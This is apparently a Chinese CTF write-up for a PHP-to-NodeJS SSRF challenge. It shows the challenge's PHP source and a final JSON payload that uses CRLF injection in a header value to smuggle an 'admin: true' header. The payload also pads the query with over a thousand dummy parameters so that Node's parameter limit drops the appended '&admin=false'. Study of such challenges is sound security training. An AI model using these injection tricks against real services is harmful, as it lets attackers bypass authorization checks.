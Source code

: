 tags:: [[CTF/NodeJS]], [[CTF/SSRF]]

- # 分析
	- 一眼ssrf攻击后端的NodeJS，需要伪造header和GET param
- # 伪造Header
	- 快使用CRLF!
	- ```json
	  "headers":["Aaa: Bbb\r\nadmin: true"]
	  ```
-
- # 伪造GET param
	- 题目会在传入的GET参数后面拼接`&admin=false`
	- 我们需要传入大量GET param，利用NodeJS中GET param的数量限制挤掉后面的`&admin=false`
- # 最终payload
	- id:: 6547a3b5-68ac-4744-bb9f-bb446e42fabd
	  ```json
	  {
	    "headers":["Aaa: Bbb\r\nadmin: true"],
	    "params":{
	      "admin":"true",
	      "x0":0,
	      "x1":1,
	      "x2":2,
	      "x3":3,
	      "x4":4,
	      "x5":5,
	      "x6":6,
	      "x7":7,
	      "x8":8,
	      "x9":9,
	      "x10":10,
	      "x11":11,
	      "x12":12,
	      "x13":13,
	      "x14":14,
	      "x15":15,
	      //... 略
	  	"x1023":1023,
	    }
	  }
	  ```
- # 题目
	- ```php
	  <?php
	  error_reporting(E_ALL);
	  $url = 'http://127.0.0.1:3000/flag?';
	  $input = file_get_contents('php://input');
	  if(!$input) {
	      highlight_file(__FILE__);
	      die();
	  }
	  $headers = (array)json_decode($input)->headers;
	  for($i = 0; $i < count($headers); $i++){
	      $offset = stripos($headers[$i], ':');
	      $key = substr($headers[$i], 0, $offset);
	      $value = substr($headers[$i], $offset + 1);
	      if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){
	          die('try hard');
	      }
	  }
	  $params = (array)json_decode($input)->params;
	  $url .= http_build_query($params);
	  $url .= '&admin=false';
	  var_dump($url);
	  var_dump($headers);
	  $ch = curl_init();
	  curl_setopt($ch, CURLOPT_URL, $url);
	  curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
	  curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
	  curl_setopt($ch, CURLOPT_NOBODY, FALSE);
	  $result = curl_exec($ch);
	  curl_close($ch);
	  echo $result;
	  var_dump($result);
	  
	  ```